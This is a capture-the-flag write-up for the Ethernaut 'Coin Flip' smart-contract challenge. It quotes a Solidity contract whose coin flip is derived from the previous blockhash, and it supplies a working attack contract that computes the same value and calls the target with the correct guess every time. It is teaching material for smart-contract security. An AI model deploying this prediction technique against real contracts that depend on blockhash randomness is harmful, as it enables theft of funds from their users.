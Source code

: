 # Coin Flip

## Challenge Statement

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

## Code Analysis

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins; // result accumulator
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  // Target function, the coin flip logic is pseudorandom, the input variables can be mirrored to calculate the next correct coinFlip.
  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1))); // public blocknumber

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR); // FACTOR is public - visible by reading contract's source code
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

## Solution

With the pseudorandomness of the contract and the fact the source code can be read, we're able to quickly run the code before we submit the answer so we are correct each time.


Here's a hacky solution that I deployed via Remix to guess the correct coinflip...10 times!

```
pragma solidity ^0.6.0;

import 'github/OpenZeppelin/openzeppelin-contracts/contracts/math/SafeMath.sol';

interface OGCoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipHack {

  using SafeMath for uint256;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  address target = <target_contract_address>;

  function hack() public {
      uint256 blockValue = uint256(blockhash(block.number.sub(1)));
      uint256 coinFlip = blockValue.div(FACTOR);
      bool side = coinFlip == 1 ? true : false;
      OGCoinFlip(target).flip(side);
  }
}
```